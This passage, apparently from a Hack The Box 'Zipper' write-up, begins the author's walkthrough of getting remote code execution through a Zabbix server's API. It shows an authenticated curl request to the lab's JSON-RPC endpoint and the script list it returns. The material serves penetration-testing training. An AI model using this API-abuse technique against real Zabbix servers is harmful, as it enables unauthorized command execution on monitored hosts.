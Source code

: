 The simplest path is to use the API to execute commands on the zipper host. I’ll walk through how to get RCE through the API curl to best show how it works.

#### Get Shell

In the [API section above](#api-overview), I listed the hosts that this instance of Zabbix is controlling. One was called Zabbix, and the other Zipper. If I assume that I’m supposed to target Zipper (since it’s the HTB name for this challenge), I’ll grab the hostid of 10106.

I’ll get a list of the scripts currently set:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.get", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{}}' | jq .
{
  "jsonrpc": "2.0",
  "result": [
    {
      "scriptid": "1",
      "name": "Ping",
      "command": "/bin/ping -c 3 {HOST.CONN} 2>&1",
      "host_access": "2",
      "usrgrpid": "0",
      "groupid": "0",
      "description": "",
      "confirmation": "",
      "type": "0",
      "execute_on": "1"
    },
    {
      "scriptid": "2",
      "name": "Traceroute",
      "command": "/usr/bin/traceroute {HOST.CONN} 2>&1",
      "host_access": "2",
      "usrgrpid": "0",
      "groupid": "0",
      "description": "",
      "confirmation": "",
      "type": "0",
      "execute_on": "1"
    },
    {
      "scriptid": "3",
      "name": "Detect operating system",
      "command": "sudo /usr/bin/nmap -O {HOST.CONN} 2>&1",
      "host_access": "2",
      "usrgrpid": "7",
      "groupid": "0",
      "description": "",
      "confirmation": "",
      "type": "0",
      "execute_on": "1"
    }
  ],
  "id": 1
}

```
